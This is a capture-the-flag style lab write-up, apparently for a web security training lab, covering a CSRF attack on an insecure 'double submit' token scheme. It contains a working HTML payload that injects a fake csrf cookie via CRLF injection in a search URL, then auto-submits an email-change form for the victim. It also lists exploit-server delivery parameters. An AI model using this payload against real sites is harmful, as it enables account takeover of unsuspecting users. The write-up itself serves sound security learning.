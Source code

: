 ### Lab: CSRF where token is duplicated in cookie

This lab's email change functionality is vulnerable to CSRF. It attempts to use the insecure "double submit" CSRF prevention technique.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter

_____

Analysis and Exploit:

1. Input from search field reflected in the _Set-Cookie_ header
```http
Set-Cookie: LastSearchTerm=aaaa; Secure; HttpOnly
```

2. The _csrf_ cookie is assigned after GET **/** and reflects the csrf token in the html body.  
The application checks if the token in the HTML page is the same in the cookie, if it does so the action is allowed.  
There is no control over the syntax of the token, using a made-up string like "fakecsrf" works. 

3. Payload*, stored and delivered
```html
<html>
    <body>
        <img src="URL/?search=test%0D%0ASet-Cookie%3A%20csrf%3Dfakecsrf%3B%20SameSite%3DNone" onerror=document.forms[0].submit()>
        <form action="URL/my-account/change-email" method="POST">
            <input required type="email" name="email" value="victim@yougothacked">
            <input required type="hidden" name="csrf" value="fakecsrf">
            <button type="submit">Update Email</button>
        </form>
    </body>
</html>
```

The semicolon after 'SameSite=None' is added by the web application as string terminator.

_____

Script notes:

- 3 - POST **/** on exploit-server
    params:
    - urlIsHttps: on
    - responseFile: /exploit
    - responseHead: HTTP/1.1 200 OK Content-Type: text/html; charset=utf-8
    - responseBody: *
    - formAction: STORE | DELIVER_TO_VICTIM